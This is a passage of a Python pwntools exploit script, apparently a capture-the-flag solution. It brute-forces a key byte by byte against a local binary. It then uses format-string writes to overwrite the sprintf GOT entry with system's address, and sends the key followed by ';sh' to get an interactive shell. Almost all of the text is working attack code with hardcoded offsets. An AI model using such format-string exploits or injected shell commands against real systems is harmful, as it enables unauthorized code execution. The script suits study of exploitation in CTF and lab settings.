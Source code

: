 ``` python
            floor_and_room(s, 1, 2)
            payload = b"A" * (16 - len(key) - 1)
            payload += chr(j).encode()
            payload += ''.join(key).encode()
            payload += b"B" * 4
            payload += b"A" * (16 - len(key) - 1)
            s.send(payload)
            try:
                if s.recv():
                    key.insert(0, chr(j))
                    log.success(f"HIT : {key}")
                    s.close()
                    break
            except:
                s.close()
                continue
    return key

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
        pid = os.popen(f"sudo docker top {BINARY} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
        if DEBUG:
            gdb.attach(int(pid), gs, exe=BINARY, sysroot="./")
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)

    floor_and_room(s, 1, 2)
    
    # [+] key : c39f30e348c07297
    # key = ''.join(guess_key(s))
    # log.success(f"key : {key}")
    key = b"c39f30e348c07297"
    s.send(key)
    s.recv()

    log.info(f"key : {key}")
    log.info(f"sprintf got : {hex(elf.got['sprintf'])}")
    log.info(f"system plt : {hex(elf.plt['system'])}")

    # %n$ -> pointing (n + 2)th dword from esp
    value = elf.got['sprintf']
    index = 26
    lock(s, key, f"%{value - 0xc}c%{index - 2}$n".encode())
    
    value = elf.plt['system']
    index = 62
    lock(s, key, f"%{value - 0xc}c%{index - 2}$n".encode())
    
    s.sendline(b"1")
    s.recv()
    s.sendline(key + b";sh")
    s.interactive()

if __name__=='__main__':
    main()
```
